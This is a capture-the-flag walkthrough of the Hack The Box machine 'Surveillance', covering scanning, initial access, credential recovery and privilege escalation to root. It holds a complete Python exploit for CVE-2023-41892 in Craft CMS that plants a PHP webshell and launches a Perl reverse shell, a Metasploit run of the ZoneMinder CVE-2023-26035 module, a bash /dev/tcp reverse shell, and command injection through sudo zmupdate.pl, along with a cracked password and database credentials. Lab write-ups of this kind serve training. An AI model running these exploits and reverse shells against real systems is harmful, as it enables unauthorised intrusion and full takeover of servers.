


# Surveillance Writeup
<figure></figure>

## Target IP: 10.10.11.245

Nmap Scan:

```
┌──(kali㉿kali)-[~/Desktop/htb/surveillance]
└─$ nmap -sC -sV -vv 10.10.11.245
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN+/g3FqMmVlkT3XCSMH/JtvGJDW3+PBxqJ+pURQey6GMjs7abbrEOCcVugczanWj1WNU5jsaYzlkCEZHlsHLvk=
|   256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIm6HJTYy2teiiP6uZoSCHhsWHN+z3SVL/21fy6cZWZi
80/tcp   open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://surveillance.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
5555/tcp open  http    syn-ack SimpleHTTPServer 0.6 (Python 3.10.12)
|_http-title: Directory listing for /
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: SimpleHTTP/0.6 Python/3.10.12
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration

As we can see the URL is revealed in the scan itself. So we add `http://surveillance.htb` to `/etc/hosts`

<figure>

There's nothing fancy about this page but as we scroll down we get some information. It says `Powered by Craft CMS v4.4.14`.

I quickly found that this is vulnerable to [CVE-2023-41892](https://gist.github.com/gmh5225/8fad5f02c2cf0334249614eb80cbf4ce) with a little bit of research.

So we take the PoC and make our own exploit.

```
import requests
import re
import sys

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.88 Safari/537.36"
}

def writePayloadToTempFile(documentRoot):

    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"msl:/etc/passwd"}}}'
    }

    files = {
        "image1": ("pwn1.msl", """<?xml version="1.0" encoding="UTF-8"?>
        <image>
        <read filename="caption:&lt;?php @system(@$_REQUEST['cmd']); ?&gt;"/>
        <write filename="info:DOCUMENTROOT/cpresources/shell.php">
        </image>""".replace("DOCUMENTROOT", documentRoot), "text/plain")
    }

    response = requests.post(url, headers=headers, data=data, files=files)

def getTmpUploadDirAndDocumentRoot():
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": r'{"name":"configObject","as ":{"class":"\\GuzzleHttp\\Psr7\\FnStream", "__construct()":{"methods":{"close":"phpinfo"}}}}'
    }

    response = requests.post(url, headers=headers, data=data)

    pattern1 = r'<tr><td class="e">upload_tmp_dir<\/td><td class="v">(.*?)<\/td><td class="v">(.*?)<\/td><\/tr>'
    pattern2 = r'<tr><td class="e">\$_SERVER\[\'DOCUMENT_ROOT\'\]<\/td><td class="v">([^<]+)<\/td><\/tr>'
   
    match1 = re.search(pattern1, response.text, re.DOTALL)
    match2 = re.search(pattern2, response.text, re.DOTALL)
    return match1.group(1), match2.group(1)

def trigerImagick(tmpDir):
    
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"vid:msl:' + tmpDir + r'/php*"}}}'
    }
    response = requests.post(url, headers=headers, data=data)    

def shell(cmd):
    response = requests.get(url + "/cpresources/shell.php", params={"cmd": cmd})
    match = re.search(r'caption:(.*?)CAPTION', response.text, re.DOTALL)

    if match:
        extracted_text = match.group(1).strip()
        print(extracted_text)
    else:
        return None
    return extracted_text

if __name__ == "__main__":
    print("[!] Please execute `nc -lvnp <port>` before running this script ...")
    if(len(sys.argv) != 4):
        print("Usage: python CVE-2023-41892.py <url> <local_ip> <local_port>")
        exit()
    else:
        url = sys.argv[1]
        ip = sys.argv[2]
        port = sys.argv[3]
        print("[-] Get temporary folder and document root ...")
        upload_tmp_dir, documentRoot = getTmpUploadDirAndDocumentRoot()
        tmpDir = "/tmp" if "no value" in upload_tmp_dir else upload_tmp_dir
        print("[-] Write payload to temporary file ...")
        try:
            writePayloadToTempFile(documentRoot)
        except requests.exceptions.ConnectionError as e:
            print("[-] Crash the php process and write temp file successfully")

        print("[-] Trigger imagick to write shell ...")
        try:
            trigerImagick(tmpDir)
        except:
            pass

        # Reverse shell
        print("[+] reverse shell is executing ...")
        rshell = f'''perl -e 'use Socket;$i="{ip}";$p={port};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){{open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");}};' '''
        shell(rshell)
```

And we get the reverse shell :D

```
┌──(kali㉿kali)-[~/Desktop/htb/surveillance]
└─$ python3 exp.py http://surveillance.htb 10.10.16.7 4444
[!] Please execute `nc -lvnp <port>` before running this script ...
[-] Get temporary folder and document root ...
[-] Write payload to temporary file ...
[-] Trigger imagick to write shell ...
[+] reverse shell is executing ...


┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...

connect to [10.10.16.7] from (UNKNOWN) [10.10.11.245] 60640
bash: cannot set terminal process group (1106): Inappropriate ioctl for device
bash: no job control in this shell
www-data@surveillance:~/html/craft/web/cpresources$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## User Flag

I found a `sql zip file` in the `/var/www/html/craft/storage/backups` directory. I started a python server and downloaded the file locally to analyze.

So we found some users in the file, I also found the user hash of `matthew` hash.

```
┌──(kali㉿kali)-[~/Desktop/htb/surveillance]
└─$ cat surveillance--2023-10-17-202801--v4.4.14.sql | grep admin  
INSERT INTO `searchindex` VALUES (1,'email',0,1,' admin surveillance htb '),(1,'firstname',0,1,' matthew '),(1,'fullname',0,1,' matthew b '),(1,'lastname',0,1,' b '),(1,'slug',0,1,''),(1,'username',0,1,' admin '),(2,'slug',0,1,' home '),(2,'title',0,1,' home '),(7,'slug',0,1,' coming soon '),(7,'title',0,1,' coming soon ');
INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46');
```

After decypting the hash we get.

```
39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec:starcraft122490
```

So we login with the credentials.

```
┌──(kali㉿kali)-[~/Desktop/htb/surveillance]
└─$ ssh matthew@10.10.11.245                            
matthew@10.10.11.245's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-89-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Dec 24 02:39:12 AM UTC 2023

  System load:  0.0               Processes:             243
  Usage of /:   84.9% of 5.91GB   Users logged in:       0
  Memory usage: 17%               IPv4 address for eth0: 10.10.11.245
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

Last login: Sat Dec 23 16:03:46 2023 from 10.10.16.29
matthew@surveillance:~$ 

```

We got the User Flag. Now let's try priviledge escalation.

## Root Flag

There is no path to escalate priviledges after checking `sudo -l`. Let's try to analyze the traffic on the machine.


```
matthew@surveillance:~$ netstat -tulnp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8000            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:5555            0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
```

We can see there is some service running on 8080.

I port forwarded that to my `localhost` using ssh.

```
┌──(kali㉿kali)-[~]
└─$ ssh -L 8080:127.0.0.1:8080 matthew@10.10.11.245
```

<figure></figure>

So this Zoneminder is vulnerable to [CVE-2023-26035](https://sploitus.com/exploit?id=1337DAY-ID-39149&utm_source=rss&utm_medium=rss)

Let's open up our metasploit quickly to get a shell as well.

```
┌──(kali㉿kali)-[~]
└─$ msfconsole -q
msf6 > use exploit/unix/webapp/zoneminder_snapshots
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/zoneminder_snapshots) > options

Module options (exploit/unix/webapp/zoneminder_snapshots):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /zm/             yes       The ZoneMinder path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      cyRruuJvq        no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   nix Command


View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/zoneminder_snapshots) > set RPORT 8080
RPORT => 8080
msf6 exploit(unix/webapp/zoneminder_snapshots) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(unix/webapp/zoneminder_snapshots) > set SRVPORT 8081
SRVPORT => 8081
msf6 exploit(unix/webapp/zoneminder_snapshots) > set LHOST tun0
LHOST => 10.10.16.7
[*] Exploit completed, but no session was created.
msf6 exploit(unix/webapp/zoneminder_snapshots) > set AutoCheck false
AutoCheck => false
msf6 exploit(unix/webapp/zoneminder_snapshots) > set TARGETURI /
TARGETURI => /
msf6 exploit(unix/webapp/zoneminder_snapshots) > run

[*] Started reverse TCP handler on 10.10.16.7:4444 
[!] AutoCheck is disabled, proceeding with exploitation
[*] Fetching CSRF Token
[+] Got Token: key:a95e6c96a0bbda10fecdad6f4abd9f965818821e,1703386322
[*] Executing nix Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending payload
[*] Sending stage (3045380 bytes) to 10.10.11.245
[*] Meterpreter session 1 opened (10.10.16.7:4444 -> 10.10.11.245:51288) at 2023-12-23 21:52:12 -0500
[+] Payload sent

meterpreter > ls
Listing: /usr/share/zoneminder/www
==================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040755/rwxr-xr-x  4096  dir   2023-10-17 06:57:02 -0400  ajax
040755/rwxr-xr-x  4096  dir   2023-10-17 06:57:02 -0400  api
040755/rwxr-xr-x  4096  dir   2023-10-17 06:57:02 -0400  css
040755/rwxr-xr-x  4096  dir   2023-10-17 06:57:02 -0400  fonts
040755/rwxr-xr-x  4096  dir   2023-10-17 06:57:02 -0400  graphics
040755/rwxr-xr-x  4096  dir   2023-10-17 08:59:03 -0400  includes
100644/rw-r--r--  9294  fil   2022-11-18 14:21:30 -0500  index.php
040755/rwxr-xr-x  4096  dir   2023-10-17 06:57:02 -0400  js
040755/rwxr-xr-x  4096  dir   2023-10-17 06:57:02 -0400  lang
100644/rw-r--r--  29    fil   2022-11-18 14:21:30 -0500  robots.txt
040755/rwxr-xr-x  4096  dir   2023-10-17 06:53:07 -0400  skins
040755/rwxr-xr-x  4096  dir   2023-10-17 06:57:02 -0400  vendor
040755/rwxr-xr-x  4096  dir   2023-10-17 06:57:02 -0400  views
```

And turned it into a shell.

```
meterpreter > shell
Process 6721 created.
Channel 1 created.
$ id
uid=1001(zoneminder) gid=1001(zoneminder) groups=1001(zoneminder)

```

Let's check `sudo -l` for escalation information.

```
$ sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *

```

After exploring the `/usr/bin/zm*` for a while.

```
$ cat zm.conf
# ==========================================================================
#
# ZoneMinder Base Configuration
#
# ==========================================================================
#
# *** DO NOT EDIT THIS FILE ***
#
# To make custom changes to the variables below, create a new configuration
# file, with an extention of .conf, under the /etc/zm/conf.d
# folder, containing your desired modifications.
#

# Path to installed data directory, used mostly for finding DB upgrade scripts
ZM_PATH_DATA=/usr/share/zoneminder

# Path to ZoneMinder binaries
ZM_PATH_BIN=/usr/bin

# Path to ZoneMinder libraries (none at present, for future use)
ZM_PATH_LIB=/usr/lib/x86_64-linux-gnu

# Path to ZoneMinder configuration (this file only at present)
ZM_PATH_CONF=/etc/zm

# Path to ZoneMinder web files
ZM_PATH_WEB=/usr/share/zoneminder/www

# Path to ZoneMinder cgi files
ZM_PATH_CGI=/usr/lib/zoneminder/cgi-bin

# Username and group that web daemon (httpd/apache) runs as
ZM_WEB_USER=www-data
ZM_WEB_GROUP=www-data

# ZoneMinder database type: so far only mysql is supported
ZM_DB_TYPE=mysql

# ZoneMinder database hostname or ip address and optionally port or unix socket
# Acceptable formats include hostname[:port], ip_address[:port], or
# localhost:/path/to/unix_socket
ZM_DB_HOST=localhost

# ZoneMinder database name
ZM_DB_NAME=zm

# ZoneMinder database user
ZM_DB_USER=zmuser

# ZoneMinder database password
ZM_DB_PASS=ZoneMinderPassword2023

# SSL CA certificate for ZoneMinder database
ZM_DB_SSL_CA_CERT=

# SSL client key for ZoneMinder database
ZM_DB_SSL_CLIENT_KEY=

# SSL client cert for ZoneMinder database
ZM_DB_SSL_CLIENT_CERT=

# Do NOT set ZM_SERVER_HOST if you are not using Multi-Server
# You have been warned
#
# The name specified here must have a corresponding entry
# in the Servers tab under Options
ZM_SERVER_HOST=
```

Found the password `ZoneMinderPassword2023` in the configuration file.

```
bash -c "bash -i >& /dev/tcp/10.10.16.7/4444 0<&1"
```

And upload `shell.sh` to `zoneminder`.

```
meterpreter > upload shell.sh
[*] Uploading  : shell.sh
[*] Uploaded -1.00 B of 63.00 B (-1.59%): shell.sh
[*] Completed  : shell.sh
meterpreter > shell
Process 6786 created.
Channel 5 created.

$ ls
f
gODHkPsVGxZ
phpBiG0s3
phpDfMesg
phpJlUXi5
phpLQvXuu
phpfsejsm
phpvCr4cI
revh.sh
shell.sh
systemd-private-3d659686143f44c19bfd1015e99311a9-ModemManager.service-GxLMNu
systemd-private-3d659686143f44c19bfd1015e99311a9-systemd-logind.service-C5qqwK
systemd-private-3d659686143f44c19bfd1015e99311a9-systemd-resolved.service-5xL4qc
systemd-private-3d659686143f44c19bfd1015e99311a9-systemd-timesyncd.service-qb11zw
vmware-root_691-4013264459
```

And we execute the `sh`.

```
$ sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/shell.sh)' --pass=ZoneMinderPassword2023

Initiating database upgrade to version 1.36.32 from version 1

WARNING - You have specified an upgrade from version 1 but the database version found is 1.36.32. Is this correct?
Press enter to continue or ctrl-C to abort : 

Do you wish to take a backup of your database prior to upgrading?
This may result in a large file in /tmp/zm if you have a lot of events.
Press 'y' for a backup or 'n' to continue : n

Upgrading database to version 1.36.32
Upgrading DB to 1.26.1 from 1.26.0

```

And the shell is caught in our listener.

```
┌──(kali㉿kali)-[~/Desktop/htb/surveillance]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.245] 49846
bash: cannot set terminal process group (1106): Inappropriate ioctl for device
bash: no job control in this shell
root@surveillance:/tmp# 
```

And the machine has been rooted.

Thank you!!! Happy Hacking :D